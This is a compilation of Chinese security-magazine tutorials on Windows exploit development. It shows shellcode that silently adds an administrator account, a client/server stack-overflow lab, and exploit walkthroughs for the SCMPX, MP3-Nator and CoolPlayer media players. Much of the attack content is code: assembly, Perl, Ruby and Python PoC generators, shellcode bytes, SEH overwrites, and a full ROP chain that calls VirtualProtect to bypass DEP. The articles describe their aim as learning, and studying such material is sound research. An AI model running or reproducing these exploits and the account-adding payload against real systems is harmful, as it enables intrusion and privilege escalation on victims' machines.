攻击代码即 Shellcode，是一段程序经编译得到的十六进制码，我们取得 Shellcode 的方法是把写好的程序编译链接完成后，用 OD 反汇编，在代码段中取得二进制码。写 Shellcode 是一件非常枯燥繁重的工作，稍有不慎就会出错。按照高级语言的编译过程，全局变量与局部变量分别被放在了数据区与栈中，源程序运行存取变量时会按照编译时生成...的地址进行存取。当我们把代码的机器码复制到目标程序的栈中时，变量并没有随代码一起被复制，而这段代码对变量的存取地址却没有变。在目标进程中，那个地址中的数据是随机的，这样存取就会出错。所以第一个要解决的问题是把变量保存在代码段中，或动态为变量在栈中申请空间。很遗憾，到目前为止笔者也没有发现能够直接用 C++ 把变量保存在代码段中的方法，最好的方法是在 C++ 中嵌入汇编，用汇编的立即数来实现。

添加管理员用户的 C 代码为：

```c
system("net user c /add");                        // 添加普通用户 c
system("net localgroup administrators c /add");   // 提升用户 c 为管理员
```

这两句话都调用了同一个 API——`system`。这个函数位于系统目录下的 `msvcrt.dll` 中，其在内存中的默认装载地址为 `0x77bf93c7`。这里只对第一句话进行详细讲解，第二句话道理相同，读者可以去查看位于 Shellcode 工程目录下的源代码。

字符串 `"net user c /add"` 加上结尾符共有 16 个字符，也就是共占 16 个字节的空间。我们用 `sub esp, 10h` 把栈空间向上扩展 16 个字节，然后通过立即数向该空间中存放字符串，并记下字符串基址；当调用 `system` 时把该基址作为参数压栈，再调用地址 `0x77bf93c7`。

代码如下：

```asm
push ebp
mov ebp, esp
sub esp, 10h
; 向 [ebp-10h] ... [ebp-01h] 写入 "net user c /add\0"
mov byte ptr [ebp-10h], 6Eh
mov byte ptr [ebp-0Fh], 65h
mov byte ptr [ebp-0Eh], 74h
...
mov byte ptr [ebp-01h], 00h
push ebx
lea ebx, [ebp-10h]
push ebx
mov eax, 0x77bf93c7
call eax
add esp, 04h
add esp, 10h
pop ebp
```

```asm
; 压入字符串 "net user c /add" 的地址 ebp-10h
; 调用地址 0x77bf93c7（system）
mov eax, 0x77bf93c7
call eax
add esp, 04h
add esp, 10h
pop ebp
```

### 提取并运行代码的机器码

现在我们要做的是把这段代码的机器码提取出来用以构造攻击字符串，步骤如下：

- 1. 编译源程序。注意不要运行，否则计算机上就会多一个用户名为 c 的用户。  
- 2. 用 OD 打开编译生成的 Shellcode.exe，代码段中停在 `00401120` 处，向下找到 `004011CF` 处（`call` 指令，main 入口），按 F4 执行到该句，再按 F7 进入子函数。  
- 3. 此时程序停在 `00401000` 处，向下找到 `0040100F` 处（`push ebp`），此处就是上面代码的起始位置。  
- 4. 选定这一句，向下找到 Shellcode 的结尾 `00401114`（`pop ebp`），选定这两个地址之间的所有代码并复制。  
- 5. 粘贴到文本文件，删除每行前面的地址和后面的汇编指令，剩下的就是机器码。

这堆以十六进制形式存放的代码就是要在字符串中存放的攻击代码，其中两个数字占一个字节。在构造字符串时要在每两个数字前加上 `\x`，表示它是十六进制数据。Client 工程中的攻击字符串形式如下：

```c
char *sendBuf =
"\x90\x90\x90..."    // 空指令填充
"\x13\x44\x87\x7c"   // jmp esp 地址
"\x55\x8B\xEC..."    // Shellcode 机器码
;


```

笔者在提取机器码时用过的数据放在了附带的 Shellcode.txt 中，读者可以去参考。附带源码包含 4 个工程：Shellcode 为攻击代码，Server 为服务端漏洞程序，Client 为攻击程序，Test 为文首小程序。

文件放在另外一台机器上，在 Client 程序中把服务器端的地址改成那台机器的 IP（原来的是本地测试地址：127.0.0.1）。先运行服务器端程序，再运行 Client，运行成功后，服务器端的机器上会新建一个名为 c 的管理员用户。该程序笔者在虚拟机上测试成功。

### 结束语

栈溢出攻击是很久之前就有的一种攻击手段，也是现在最常见的一种漏洞。漏洞的学习不是一两天就可以精通的，要有比较好的逆向分析基础，然后是耐心。我们学习它的目的不是为了攻击别人，而是为了以后编程时能使自己的代码更加安全。预防这样的漏洞也很容易，只要在复制字符串之前检查一下缓冲区长度是否足够就可以了。笔者认为这种漏洞之所以存在，是由于 Windows 或处理器在设计时就存在弱点，把地址与数据同时存放在同一个数据结构（栈）中，本身就不太安全；另外如果不允许 EIP 跳到栈中去执行代码，就能直接保证这种漏洞不会存在。相信那些专家们也早已考虑到这一点了吧。

> （编辑提醒：本文涉及的代码可以到黑客官方网站下载）

前置知识：汇编  
关键词：SCMPX、堆溢出、漏洞
## 探究 SCMPX 1.5.1 本地堆溢出漏洞

文/图 木木

SCMPX 1.5.1 是一款音乐播放器软件，以前没听说过这款软件，在国外应该使用得多一些吧！SCMPX 1.5.1 在处理 M3U 文件的时候存在着堆溢出漏洞。这个很常见，播放器漏洞都出在没有正确解析 m3u、smi 等文件上，国内的 realplayer、暴风影音、QQ 影音等软件都出现过类似的漏洞。在网上下载的测试代码如下：

```perl
#!/usr/bin/perl
my $crash="\x41" x 5000;
open(myfile,">hack4love.M3U");
print myfile,$crash;


```

从代码中可以看出，作者只是给出了能触发漏洞的代码并没有给出利用代码，所以要想成功地弹出计算器，还需要改造代码。运行代码，生成 hack4love.m3u 文件，用调试器加载播放器，然后用播放器加载 hack4love.m3u 文件，调试器停在如图 1 所示的代码处。
图 1

我们看到提示“访问违规：正在写入到 41414145”，再仔细看寄存器窗口，ECX 和 EDX 都成为了“41414141”，再来看一下这里的代码：

```asm
00465B1C  MOV ECX,DWORD PTR SS:[EBP-8]
00465B1F  MOV EDX,DWORD PTR DS:[ECX+8]
00465B22  MOV ECX,DWORD PTR DS:[ECX+4141]
00465B25  MOV DWORD PTR DS:[EDX+4],ECX
...
00465B2B  MOV ECX,DWORD PTR SS:[EBP-8]
00465B2E  MOV EDX,DWORD PTR DS:[ECX+4]
00465B31  MOV ECX,DWORD PTR DS:[ECX+8]
00465B34  MOV DWORD PTR DS:[EDX+8],ECX
```

从上面的代码可以看出，程序并不是调用系统提供的函数进行内存操作的，通过调试可以发现它是调用一个自定义的函数来实现这里的操作。

```asm
00463693  PUSH 9
00463695  CALL SCMPX.00465936


```

我认为这应该不是传统的堆溢出。首先，这里的函数用的是自定义函数；其次，在内存中是找不到块首的。还有其他原因，后面会讲到。是不是堆溢出不要紧，既然已经获得了可以改写任意内存的机会，当然应该好好利用一下。通过调试可以发现，ECX 中的值是来自内存 `00AE3010`，EDX 的值则是来自内存 `00AE3014`。因为不知道到底是第多少个“\x41”覆盖了这两个内存值，所以首先必须减少代码中“\x41”的数量，直到刚好能覆盖这两个内存值为止。然后在代码中填入 Shellcode 并减少相应的“\x41”数量，完成这些步骤后，就应该考虑一个问题：是把返回值覆盖成 Shellcode 的地址，还是把 SEH 覆盖成返回值的地址？其实并没有选择的余地，只能覆盖 SEH，因为不论是将返回值覆盖为 Shellcode 的地址，还是将 SEH 覆盖为 Shellcode 的地址，在第二个读写内存的地方都会产生异常。那么如果是将返回值覆盖为 Shellcode 的地址，则程序还没返回就已经出现异常，结果肯定是利用失败。利用 OD 查看当前的 SEH 链，如图 2 所示。
图 2

记下最顶端的地址：`0012FDFC`，然后在内存中找出 Shellcode 的地址，如图 3 所示。
图 3

从图 3 中我们可以清楚地看到，此时 Shellcode 的地址应该是 `00AE3D34`。因为是将内存 `00AE3010` 中的值写入到内存 `00AE3014+4` 中的，所以应该把内存 `00AE3010` 填充为 Shellcode 的地址：`00AE3D34`，将内存 `00AE3014` 填充为 `SEH-4`（`0012FDFC-4=0012FDF8`）。将代码修改好后，生成文件，然后期待弹出计算器吧！很郁闷，计算器并没有弹出，会是什么原因呢？我们一起来看一下，如图 4 所示。
图 4

可以看到，内存 `00AE3014` 处本应该被覆盖为 `F8FD1200`，现在却变成了 `8C31AE00`，这也是没有成功的原因了。另一个规律是覆盖时不能出现“\x00”，如果出现就会被截断，导致覆盖不能成功。因为我们利用的两个值都含有“\x00”（`00AE3D34`，`0012FDF8`），前面出现的“\x00”导致后面的覆盖失败。要解决这个问题就要使 Shellcode 地址中不含“\x00”。

`00AE3010`，来看一下结果，如图 5 所示。
图 5

可以看到已经被成功填充为“343DAE90”和“F8FD1200”了。然后单步执行过第一次读写内存的代码后，我们来看看 SEH 链有没有被改写，如图 6 所示。
图 6

可以看到 SEH 链已经被成功改写，继续单步直到第二次读写内存代码，出现异常。这时需要仔细看一下寄存器窗口，如图 7 所示。
图 7

相信大家都明白了，这时的 ESI 是指向堆栈的，而且堆栈中是压有我们填充的数值的，如图 8 所示。
图 8

我想此刻我们最需要的就是一个 `jmp esi` 或 `call esi`。只要选出一个不含“\x00”的值，然后把它填充到内存 `00AE3010` 处，再调整堆栈 `0012E58C` 中的数值使其填充为 Shellcode，这样当出现异常时，程序就会调用我们构造的异常处理程序：`JMP ESI`，然后跳去执行 Shellcode。最终弹出了计算器，如图 9 所示。

再次证明了这个漏洞不是一个传统的堆溢出；在调试时由于系统会分配调试堆的缘故，可能表现不同，但其原理和堆溢出是相同的。
图 9

### 总结

双向链表在大学的课本里算是一个难点，而堆的操作恰好又涉及了双向链表的操作，因此要给大家讲清楚堆溢出的原理确实是个难题。

本来打算结合《操作系统原理》来给大家讲一下堆的数据结构和操作原理的，但看到 failwest 前辈在《0day 安全：软件漏洞分析技术》一书中很清楚、很精彩地讲述了堆的溢出原理，就决定直接引用了。在此希望 failwest 前辈能够原谅，也感谢他写出这样精彩的书供我们参考。至于这个漏洞，最后是成功利用了，但总觉得有点侥幸，虽然原理和堆溢出很像，但绝不是一个堆溢出漏洞！这个漏洞的利用是靠了几分运气的，要不是异常发生的时候，ESI 正好指向堆栈，而它指向的堆栈又正好有我们填充的数据，就不可能溢出成功的。这也告诉我们，不管堆溢出还是堆栈溢出，只要我们能得到改写内存的机会，就能使 Shellcode 执行，不需要将它们分得那么清楚，我们要的只是改写内存的机会。

前置知识：汇编  
关键词：MP3、漏洞

## MP3-Nator 漏洞挖掘

文/图 Xiaot8267
### 漏洞介绍

MP3-Nator 2.0 是一款简单的 MP3 播放器。通过对该款软件的测试，本人发现这款播放器存在缓冲区溢出的漏洞，测试的平台是在 Windows XP SP3（英文版）。而本文的主要目的不是描述这款软件的漏洞，而是分享本人在拿到这个软件之后，挖掘这个软件漏洞的过程，并利用漏洞的方式。

歌曲文件路径是使用“0D 0A”（回车换行）这样的字符进行分割的，那么我们可以设想，如果构造一个路径很长的 `.plf` 格式文件，会不会导致缓冲区溢出呢？于是我生成一个 5000 字节全“A”的名为 test.plf 的文件，播放器在加载这个文件之后立即退出了。我们用调试器 attach 到播放器进程，让播放器加载 test.plf，软件异常，如图 2 所示。

### 初步测试

在学习了很多播放器漏洞的文章之后，我们可以总结出：一般播放器的缓冲区漏洞都发生在对播放列表的解析上。所以我们首先加载歌曲 music1 和 music2，通过保存一个正常的播放器列表，将生成的 normal.plf 用 winhex 来查看在正常情况下的播放器列表结构，如图 1 所示。

```text
Offset   0 1 2 3 4 5 6 7 8 9 A B C D E F
00000000 43 3A 5C 44 6F 63 75 6D 65 6E 74 73 20 61 6E 64 ...
00000010 20 53 65 74 74 69 6E 67 73 5C 78 69 61 6F 74 5C ...
...


```

图 1

从图 1 我们可以得出：歌曲文件路径是使用“0D 0A”（回车换行）进行分割。
图 2

图 2 显示了软件出现异常时调试器停在了 `0x00403C64` 处：

```asm
00403C64    8B10    MOV EDX, DWORD PTR DS:[EAX]
```

由于 EAX 寄存器被覆盖成了 `0x41414141`，导致了访问异常。

而观察此时栈空间的情况，我们可以发现从 `0x12E9C4` 的栈地址开始，一直到 `0x12FD48`，地址的内容全部被覆盖成 `0x41414141` 的值。`0x12FD48-0x12E9C4+4=0x1388 (5000)`，刚好等于我们构造的字符数目。所以由此可以得出结论：该软件缺乏对输入文件路径长度的限制，导致了该软件存在栈的缓冲区溢出漏洞。

接收的缓冲区的首地址是 `0x0012E9C4`，和我们最开始发现的是相符的。在明白漏洞产生的原因之后，接下来我们要做的工作就是构造栈空间利用漏洞。

### 漏洞分析

接下来的工作当然是调试该软件，深入分析该软件产生漏洞的原因。调试的方式还是通过 attach。文件的处理过程应该是首先通过 `CreateFileA` 或 `CreateFileW` 获得文件句柄，之后再通过 `ReadFile` 将文件内容读入。所以首先对 `CreateFileA` 和 `CreateFileW` 下断点，然后加载 `test.plf` 文件，断在系统 `CreateFileA` 函数入口处，此时的栈空间如下：

```asm
0012F98C  00408947   /CALL to CreateFileA from MP3N.00408942
0012F990  00A777DC   |FileName = "C:\Documents and Settings\xiaot\Desktop\test.plf"
0012F994  80000000   |Access = GENERIC_READ
0012F998  00000001   |ShareMode = FILE_SHARE_READ
0012F99C  00000000   |pSecurity = NULL
0012F9A0  00000003   |Mode = OPEN_EXISTING
0012F9A4  00000080   |Attributes = NORMAL
0012F9A8  00000000   |hTemplateFile = NULL
```

可以看出这是打开 `test.plf` 文件的句柄操作，按 Ctrl+F9 回到主程序的运行空间，获得的句柄是 `0xA8`。之后再对 `ReadFile` 下断，按 F9 键之后，程序停在 `ReadFile` 函数入口处，栈空间数据如下：

```asm
0012F980  00408989   /CALL to ReadFile from MP3N.00408984
0012F984  000000A8   |hFile = 000000A8
0012F988  00A78894   |Buffer = 00A78894
0012F98C  00001388   |BytesToRead = 1388 (5000)
0012F990  0012F998   |pBytesRead = 0012F998
0012F994  00000000   |pOverlapped = NULL
```

程序会将文件中的数据复制到以 `0xA78894` 为首地址的缓冲区，读入的数据大小是 5000 字节。之后的程序处理流程是判断读入的字符数是否为 0，通过 `0x0A` 和 `0x0D` 来切割输入的缓冲区字符串，然后通过 `SendMessageA` 函数，设置 `LB_ADDSTRING` 消息，将读入的缓冲区发送给播放器窗口的播放列表（listbox 控件）。到目前为止程序是没有问题的，但是接下来程序会用一个缓冲区去保存播放文件列表中的值，因为程序会根据播放列表中的值（即播放文件路径）去访问文件。但是由于缺乏接收缓冲区大小限制，导致栈中缓冲区溢出。

```asm
00428D67  50           PUSH EAX
00428D68  57           PUSH EDI
00428D69  68 89010000  PUSH 189
00428D6E  8B46 0C      MOV EAX,DWORD PTR DS:[ESI+C]
00428D71  E8 DECB0000  CALL MP3N.00435954
00428D76  50           PUSH EAX
00428D77  FF...        CALL <JMP.&user32.SendMessageA>
```

```asm
当程序调用 SendMessageA 的时候，栈的情况如下：
0012E998  001000FA   hWnd = 1000FA
0012E99C  00000189   Message = LB_GETTEXT
0012E9A0  00000000   Index = 0
0012E9A4  0012E9C4   Buffer = 0012E9C4


```

## 漏洞的利用

在构造输入文件之前，我们应该明确文件中不能出现 `"0x00"` 或 `"0x0A"` 这样的字符，其中输入文件的字符还会因为 `"0x00"` 而被截断。这些字符是不可以在我们的 payload 中出现的。

然后，我们可以观察栈帧和 SEH 链的结构，以选择是采取直接返回地址覆盖方法，还是直接覆盖 SEH 的异常处理地址。栈帧和 SEH 链的结构如图 3 所示。
| 地址     | 例程     |
|----------|----------|
| 0012E9A8 | 00428DCA |
| 0012F9D0 | 0041130F |
| 0012FA08 | 004983E3 |
| 0012FBCC | 004330DB |
| 0012FBD8 | 004330EC |
| …        | …        |

函数的返回地址是 `0x0012F9CC`，与缓冲区的入口地址 `0x0012E9C4` 相差 `0x1008(4104)`。由于程序在调用 `MessageBoxA` 函数之后不是直接返回的，还会调用其他函数，并且还会访问 `0x0012F9C8` 中的 EBP，在函数返回前会出现异常，所以如果采用直接覆盖返回地址的方式是不可行的。因此决定采用覆盖 SEH 的异常处理函数地址的方式来跳到 Shellcode 的地址，并且该程序并没有开启 SafeSEH 的保护，更减少了负担。

那么这个覆盖 SE Handler 的地址应该填什么呢？这就取决于我们定位 Shellcode 的方式。为了通用性，我们不能硬编码一个地址，因为有的程序的栈空间运行在 `12XXXXX` 段，有的运行在 `13XXXXX`。为了能动态定位，可以利用 `jmp esp` 的方法来实现。我们先填一个任意地址覆盖 SE Handler，然后对那个地址下断点。程序运行产生异常，按 Ctrl+F7 组合键忽略异常后，程序断下来了，此时 ESP 的值是 `0x0012E5C4`。这个值比缓冲区空间的入口地址 `0x0012E9C4` 要小，所以应该找到 `ADD ESP,XX; RET` 这种类型的指令来增加 ESP 的值，使之能够跳到我们装载 Shellcode 的空间。

在 `0x10019C35` 的地址处有一条指令能够很好地满足需求，它执行的指令是 `ADD ESP,41C; RET`，那么再接一条指向 `jmp esp` 的指令就可以了。`jmp esp` 指令可以用 `!pyefindaddr j esp` 来查找，本文选取的是 `0x7E429353` 的地址，如图 4 所示。所有准备工作做好之后就应该进行 POC 的构造了。首先用地址 `0x10019C35` 去覆盖 SE Handler 的值，然后进入异常处理流程。

理例程的时候，ESP=0x0012E5C4。执行“ADD ESP,41C”的指令后，ESP=0x0012E9E0。而 0x0012E9E0 相对于缓冲区入口地址 0x0012E9C4 的偏移是 0x0012E9E0-0x0012E9C4=0x1C（28）。所以应该在输入缓冲区的偏移 28 字节处填上 `jmp esp` 的地址，即 `0x7E429353`，然后在偏移 32 字节之后的空间接上 Shellcode 程序就能行了。Payload 的结构如图 5 所示。
图 4

| nop | jmp esp | nop | shellcode | AAAA | nSEH | SEH |
|---|---|---|---|---|---|---|
| 0x90×... | 0x7E429353 | 0x90×... | ... | AAAA | 0xFFFFFFEB | 0x10019C35 |

图 5

POC（Ruby）的构造如下：

```ruby
filename = 'exploit_no_dep_by_xiaot8267.plf'
shellcode =
"\x33\xc9\xb8\xd1\xa3\x3d\x27\xda\xdr\x99\x74\x24\xf4\x5b..."
```

```ruby
...\x52\x5a\x83\xc2\x04\x31\x42\x0c\x03\x93\xaf...
...
nop1 = "\x90" * 28
jmp1 = [0x7E429353].pack('V')
nop2 = "\x90" * (256-32)
nop3 = "\x90" * (4108-479)
nSEH = [0xFFFFFFEB].pack('V')
SEH  = [0x10019C35].pack('V')
payload = nop1 + jmp1 + nop2 + shellcode + nop3 + nSEH + SEH
File.open(filename,'w') do |fd|
  fd.write payload
end


```

最后用 MP3-Nator 2.0 加载构造的文件就会弹出计算器程序，当然这是在程序没有启用 DEP 保护的情况。那么如果我们想绕过 DEP 保护，该如何去实现呢？且看下篇《MP3-Nator 漏洞挖掘（续 bypass DEP）》。

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：汇编  
关键词：MP3、漏洞、DEP

## MP3-Nator 漏洞挖掘
### （续 bypass DEP）

文/图 Xiao!8267
上一篇的《MP3-Nator 漏洞挖掘》讲述了本人对 MP3-Nator 的漏洞挖掘及 POC 的编写过程，前提条件是我们并没有开启 DEP 保护。如果我们开启系统的 DEP 保护（如图 1 左图所示是开启 DEP 保护的对话框，开启后需要重启），运行我们之前构造的能够触发漏洞的播放列表文件，系统就会给出如图 1 右图所示的提示。
图 1

### 相关概念

在学习绕过 DEP 技术之前，我们先看一下 DEP 的相关概念。“数据执行保护（DEP）”是一套软硬件技术，能够在内存上执行额外检查以帮助防止在系统上运行恶意代码。在 Microsoft Windows XP Service Pack 2、Microsoft Windows Server 2003 Service Pack 1、Microsoft Windows XP Tablet PC Edition 2005、Microsoft Windows Vista 和 Microsoft Windows 7 中，由硬件和软件一起强制实施 DEP（百度百科）。在一般情况下，堆和栈这些缓冲区是用于存储数据的，但是我们利用 direct ret 或者 SEH 等技术改变程序的流程，让系统将栈中的这些数据当做指令来执行。DEP 的引入就是为了防止这种情况，其实质就是防止在已标识为数据存储区域的内存中执行代码。我们的缓冲区没有代码的执行权了，该怎么运行我们的 Shellcode 呢？

### 代码的可执行性

首先，最直观的想法就是能不能通过某种方式禁用 DEP 保护，或者让缓冲区具有代码的执行权。要实现这些目的就要调用相关 API，可是此刻我们的缓冲区是没有代码执行权的，该怎么办呢？于是“ret2lib”的技术应运而生，其思想就是在堆栈中存储加载系统库中的可执行代码的地址，这些可执行代码具有“XXXX ret”的特征，然后将这些指令组成具有特定功能的代码片段 rop。我们的堆栈就相当于一个调度中心，一条 ret 语句就会从栈中取出下一条要执行的指令地址，而每段 rop 代码都会完成相应的功能。我们只要找到符合我们需要的可执行指令并构造好堆栈结构，程序就能按我们的预期运行。

举个例子，比如现在我们想要将 ESP 寄存器的值赋给 EAX 寄存器，此刻我们的栈是没有代码的执行权限的，所以在栈中放入“MOV EAX,ESP”这样的代码是不行的。如果能够找到加载系统库中的“#MOV EAX,ESP #RETN”这样的指令，并将具有这种特征的代码的地址 Addr 放入栈中，控制程序的执行过程，使其跳到 Addr 执行完 “MOV EAX,ESP” 之后，一句 ret 就会将栈中的下一条地址取出继续执行，这样就达到了我们的要求。但是如果情况比较复杂，我们找不到能够直接满足要求的代码，也可以寻找具有相同功能的代码来替代。以本程序为例，我们想实现 “MOV EAX,ESP” 的功能，但是在程序中是找不到 “MOV EAX,ESP # RET” 这样的代码的，那么我们可以用具有类似功能的指令组合来实现。

在栈中的两个相邻的位置可以填上 `0x71ABDAC3` 和 `0x71ABDC56` 两个地址，这两个地址对应的指令分别是：

```asm
0x71ABDAC3    #PUSH ESP #POP ESI #RETN
[Module: WS2_32.dll]
0x71ABDC56    #MOV EAX,ESI #POP ESI #RETN
[Module: WS2_32.dll]


```

这样程序首先跳到 `0x71ABDAC3` 处执行，完成将 ESP 赋值给 ESI 的功能之后，RET 语句会从栈中取出 `0x71ABDC56` 赋值给 EIP，程序就会跳到 `0x71ABDC56` 执行，然后就完成了将 ESI 赋值给 EAX 的功能了。这样一段指令的组合就实现了我们的目的。

对于指令的查找，我们可以利用 Immunity Debugger 这款非常优秀的调试工具，特别是它的 Pvefindaddr 插件，为我们查找指令带来了很大的方便。比如，我们想要查找 `#PUSH ESP #POP ESI #RETN` 这样的指令，可以通过 `!pvefindaddr assemble PUSH ESP # POP ESI # RETN`，在 log 记录窗口中可以看到 `Message= Full opcode : \x54\x5e\xc3`，然后通过 `!pvefindaddr find 545ec3` 就可以查找到该指令的一系列地址。`-m` 参数可以指定加载的模块。不仅如此，Pvefindaddr 能够提供查找 “XXX ret” 指令特征的功能。在命令框里输入 `!pvefindaddr rop,debugger` 会在调试器的主文件夹里生成三个文件：`rop.txt`、`rop_stackpivot.txt` 和 `_rop_progress_<executable>_<pid>.txt`。如果没有输入 `-m` 指定加载的模块，那么 Pvefindaddr 的 rop 函数功能将会执行非常久，因为它会去扫描进程的可执行文件和加载的所有库文件。`rop.txt` 记录了所有具有 “XXXX ret” 特征的指令和地址及所属的模块，如图 2 所示。
`rop_stackpivot.txt` 的内容是所有 `rop.txt` 的指令中能够对栈产生影响的指令，如图 3 所示。
而 `_rop_progress_<executable>_<pid>.txt` 则是一个记录了扫描进度的文件，executable 是可执行文件名，pid 是进程 id。如图 4 所示。
### 缓冲区的构造

在解决了代码的可执行性之后，接下来就要解决禁用 DEP 或者缓冲区代码的可执行性的问题。我们知道 VirtualProtect 函数能够改变内存区域的相关属性，我们只要构造好堆栈，调用 VirtualProtect，让装载 Shellcode 的内存区域具有可执行权的问题就解决了。我们先来看看 VirtualProtect 函数定义：

```c
BOOL WINAPI VirtualProtect(
  __in   LPVOID lpAddress,
  __in   SIZE_T dwSize,
  __in   DWORD flNewProtect,
  __out  PDWORD lpflOldProtect
);


```

这个函数有四个参数：lpAddress 指向要改变内存属性的地址，dwSize 是要改变的内存大小，flNewProtect 是内存属性，了让相应的内存区域具有可执行属性，这里我们应该填 `0x40`（PAGE_EXECUTE_READWRITE），然后让 lpflOldProtect 指向具有写权限的内存即可。  
为了能够执行 Shellcode，发布 POC 的作者按如下表格来构造栈空间，其关键之处就是 VirtualProtect 参数的填写：

| # ROP1 |  |
|---|---|
| 0x71ABDAC3 | # PUSH ESP # POP ESI # RETN |
| 0x71ABDC56 | # MOV EAX,ESI # POP ESI # RETN |
| AAAA | 占位符 |
| 0x1001595E | # ADD ESP,20 # RETN |
| 0x7C801AD4 | # VirtualProtect |
| WWWW | # return address |
| XXXX | # lpAddress |
| YYYY | # Size |
| ZZZZ | # flNewProtect |
| 0x5ADA1005 | # writeable address |
| AAAA | 占位符 |
| AAAA | 占位符 |
| # ROP2 - [ PARAM #1 ] |  |
| 0x775D131E | # PUSH EAX # POP ESI # RETN |
| 0x77C4EC2B | # ADD EAX,100 # POP EBP # RETN |
| AAAA | 占位符 |
| 0x77C4EC2B | # ADD EAX,100 # POP EBP # RETN |
| AAAA | 占位符 |
| 0x77E84115 | # MOV DWORD PTR DS:[ESI+10],EAX # MOV EAX,ESI # POP ESI # RETN |
| # ROP2 - [ PARAM #2 ] |  |
| 0x775D131E | # PUSH EAX # POP ESI # RETN |
| 0x77C4EC2B | # ADD EAX,100 # POP EBP # RETN |
| AAAA | 占位符 |
| 0x77157D1D | # INC ESI # RETN |
| 0x77157D1D | # INC ESI # RETN |
| 0x77157D1D | # INC ESI # RETN |
| 0x77157D1D | # INC ESI # RETN |
| 0x77E84115 | # MOV DWORD PTR DS:[ESI+10],EAX # MOV EAX,ESI # POP ESI # RETN |
| # ROP2 - [ PARAM #3 ] |  |
| 0x775D131E | # PUSH EAX # POP ESI # RETN |
| 0x77E85606 | # XOR EAX,EAX # RETN |
| 0x77C4EC2B | # ADD EAX,100 # POP EBP # RETN |
| AAAA | 占位符 |
| 0x77C4EC2B | # ADD EAX,100 # POP EBP # RETN |
| AAAA | 占位符 |
| 0x77C4EC2B | # ADD EAX,100 # POP EBP # RETN |
| AAAA | 占位符 |
| 0x77157D1D | # INC ESI # RETN |
| 0x77157D1D | # INC ESI # RETN |
| 0x77157D1D | # INC ESI # RETN |
| 0x77157D1D | # INC ESI # RETN |
| 0x77E84115 | # MOV DWORD PTR DS:[ESI+10],EAX # MOV EAX,ESI # POP ESI # RETN |
| AAAA | 占位符 |
| # ROP2 - [ PARAM #4 ] |  |
| 0x775D131E | # PUSH EAX # POP ESI # RETN |
| 0x77E85606 | # XOR EAX,EAX # RETN |
| 0x77C4EC1D | # ADD EAX,40 # POP EBP # RETN |
| AAAA | 占位符 |
| 0x77157D1D | # INC ESI # RETN |
| 0x77157D1D | # INC ESI # RETN |
| 0x77157D1D | # INC ESI # RETN |
| 0x77157D1D | # INC ESI # RETN |
| 0x77E84115 | # MOV DWORD PTR DS:[ESI+10],EAX # MOV EAX,ESI # POP ESI # RETN |
| AAAA | 占位符 |
| # POINT ESP TO VIRTUALPROTECT |  |
| 0x77E7F264 | # XCHG EAX,ESP # RETN |

之前一篇文章已经将这个软件的漏洞分析得很清楚了，给出了一个基于 SEH 的 POC。这里为了绕过 DEP 保护，我们还是可以利用 SEH 控制程序的执行流程，使程序跳转到 #ROP1。这样，程序的执行流程就是：#ROP1 → #ROP2-[PARAM#1] → #ROP2-[PARAM#2] → #ROP2-[PARAM#3] → #ROP2-[PARAM#4] → #POINT ESP TO VIRTUALPROTECT → 通过 #return address 跳到装载 Shellcode 的地方。  
#ROP1 的作用就是保存 ESP，并布置好 VirtualProtect 的栈空间；由于这里直接 jmp 到 VirtualProtect 的地址，所以栈最上层保存的是 #return address。  
#ROP2-[PARAM#1] 用于填写 #return address（跳入 Shellcode 区域）；#ROP2-[PARAM#2] 填写 #lpAddress；#ROP2-[PARAM#3] 填写 #Size；#ROP2-[PARAM#4] 填写 #flNewProtect，值为 `0x40`。  
在调用完 VirtualProtect 函数之后，装载 Shellcode 的内存属性就变成可执行了。最后程序会跳到 Shellcode 区域执行，然后弹出计算器程序。

### 后记

这两篇文章算是本人学习漏洞挖掘和分析的笔记。第一篇是自己对漏洞的挖掘和利用，第二篇是学习发布 POC 作者绕过 DEP 的过程。文章叙述了许多细节，对高手来说也许有些繁琐，但是能够帮助像我这样的新手更好地理解漏洞挖掘。  
如果文章有什么纰漏，希望大家指教！  
（编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：汇编  
关键词：CoolPlayer、溢出、漏洞

## CoolPlayer 2.18 缓冲区溢出漏洞利用分析
文/图 wingdbg

### 背景知识

自 Windows XP SP2 之后，微软为 Windows 操作系统增加了数据执行保护的安全防范机制。DEP 有两种模式，如果 CPU 支持内存页 NX 属性，就属于硬件支持的 DEP；如果 CPU 不支持，那就是软件支持的 DEP 模式。这种 DEP 不能阻止在非代码页上执行代码，但可以防止其他的 exploit（如覆盖 SEH 类型的漏洞利用），也就是 safeSEH 机制。

无数的漏洞分析人士也探讨出了比较多的绕过硬件 DEP 的方法。比较著名的有 ret2libc 技术（http://securitytube.net/Buffer-Overflow-Primer-Part-8-%28Return-to-libc-Theory/video.aspx），以 ret2libc 技术为基础，又衍生出为数众多的新兴技术。

本文着重来讨论处理器硬件支持（支持 NX 标志的 CPU）的 DEP 绕过方法，从 CoolPlayer 这种常见的缓冲区栈溢出漏洞分析着手，从实践中总结三种常见的 DEP 绕过方法。

### 重要利器

- Python 编译器（http://www.python.org）
- Immunity Debugger 1.73 调试器（http://www.immunityinc.com/products-immdbg.shtml）
- !pvefindaddr 插件（http://redmine.corelan.be:8800/projects/pvefindaddr/wiki/Pvefindaddr_usage）
- MetaSploit 平台（http://www.metasploit.com）

### 实验环境

- VirtualBox + Windows XP SP3（开启 VB 的模拟处理器 NX 标志）
- CoolPlayer 2.18 软件（http://www.exploit-db.com/exploits/15895）

### 漏洞重现

该漏洞是 2011 年 1 月 2 日由 Blake 公布在 exploit-db 上的，并且提供了 poc 的生成代码，作者说得很清楚，这个漏洞存在不同系统兼容的问题。因此，我们用 Python 语言来构造此漏洞的 poc 生成程序，使用 pallen_create 技术来定位 EIP 在 poc 文件的偏移。代码如下：

```python
#---
# Name: CoolPlayer 2.18 DEP Bypass
# Purpose: Exploit of CoolPlayer 2.18
#
# Author: Wingdbg
#
# Created: 09-01-2011
# Copyright: (c) wingdbg 2011
# Licence: wingdbg@gmail.com
#!/usr/bin/env python

def BuildStr(size):
    string1 = "ABCDEFGHIJKLMNOPQRSTUVWXYZ"
    string2 = "abcdefghijklmnopqrstuvwxyz"
    string3 = "0123456789"
    diffstr = ""
    maxlength = size
    count = 0
    for i in string1:
        p1 = str(i)
        for n in string2:
            p2 = str(n)
            for m in string3:
                p3 = str(m)
                for x in string1:
                    p4 = str(x)
                    diffstr = diffstr[:] + p1 + p2 + p3 + p4
                    count += 4
                    if count > maxlength:
                        break
